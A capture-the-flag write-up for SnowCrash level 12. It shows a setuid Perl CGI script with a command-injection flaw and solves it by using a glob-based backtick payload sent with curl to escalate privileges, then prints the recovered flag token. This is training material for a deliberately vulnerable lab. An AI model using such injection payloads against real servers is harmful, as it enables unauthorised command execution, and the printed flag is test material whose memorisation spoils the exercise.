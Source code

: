 # Level 12

## Vulnerability
Privilege escalation - CGI code injection

## Context
```
level12@SnowCrash:~$ ls -l
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
## Solution
Let's ```cat``` the file and see what we find. 
```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
This program uses CGI (Common Gateway Interface) to execute a shellscript.<br/>
Here's what that would look like in a navigator:<br/>
```http://${VM_IP}:4646/?x={shellscript}<br/>```

In the program, the shellscript is evaluated in the $xx variable... which we can exploit!<br/>
The regex will capitalize the $xx argument. <br/>
So if we write ```x="getflag > /tmp/flag12"``` it will be changed to ```"GETFLAG > /tmp/FLAG12"```.<br/>
Linux is case-sensitive, so it will fail to recognize a filepath in capital case. <br/>
Hmm... let's try writing our script to a file instead. 
```
level12@SnowCrash:~$ echo "getflag > /tmp/flag12" > /tmp/EXPLOIT
level12@SnowCrash:~$ cat /tmp/EXPLOIT
getflag > /tmp/flag12
```
Let's make sure we can run the script. 
```
level12@SnowCrash:~$ cd /tmp
level12@SnowCrash:/tmp$ `EXPLOIT`
EXPLOIT: command not found

level12@SnowCrash:/tmp$ `/tmp/EXPLOIT`
bash: /tmp/EXPLOIT: Permission denied
```
Ok, looks like it's not executable. Let's change the permissions on the file. 
```
level12@SnowCrash:/tmp$ chmod 755 EXPLOIT
level12@SnowCrash:/tmp$ `/tmp/EXPLOIT`
level12@SnowCrash:/tmp$ ls
EXPLOIT  flag12
level12@SnowCrash:/tmp$ cat flag12
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
It works! Time to leverage the perl program to execute our script.<br/>
Since we can't pass the filepath directly (it'll get capitalized by the perl program and be unrecognizable), we'll use globbing and replace the file path with asterisks.
```
level12@SnowCrash:/tmp$ curl '127.0.0.1:4646?x="`/*/*/EXPLOIT`"'
..
level12@SnowCrash:/tmp$ cat flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Success!
